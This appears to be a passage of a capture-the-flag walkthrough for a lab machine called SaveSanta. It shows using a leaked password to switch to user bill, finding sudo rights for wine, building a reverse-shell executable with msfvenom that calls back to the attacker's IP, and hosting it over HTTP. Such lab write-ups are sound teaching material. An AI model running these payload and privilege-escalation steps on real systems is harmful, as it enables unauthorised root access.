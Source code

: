 ```bash
His account has been created and ready to logon. When Bill arrives, tell him his username is 'bill'. The password has been set to: 'JingleBellsPhishingSmellsHackersGoAway' He will know what to do next. 

Please help Bill as much as possible so Christmas can go on! 

- Santa
? 

```
We have found a new username and password. Santa did hire Bill Gates.
Let's exit the emai of the user.
```bash
? exit
```
We should try to switch to the new user.
```bash
alabaster@santa:~$ su bill
Password: 
$ whoami
bill
```
We are now bill on the system. We should find out if we can sudo anything.
```bash
$ sudo -l
Matching Defaults entries for bill on santa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bill may run the following commands on santa:
    (ALL) NOPASSWD: /usr/bin/wine

```
Bill has the right to run wine as sudoer. Since wine can be run with sudo we might be able to gain root privileges.

## Privilege escalation
First we should create a reverse shell with msfvenom so we hace an executable.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/SaveSanta]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
Next we should host the file so we can transfer it to the victim.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/SaveSanta]
└─$ sudo python3 -m http.server 80                                                         
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
We should change the working direcotry to the home directory of Bill. Here we can download the reverse shell executable.
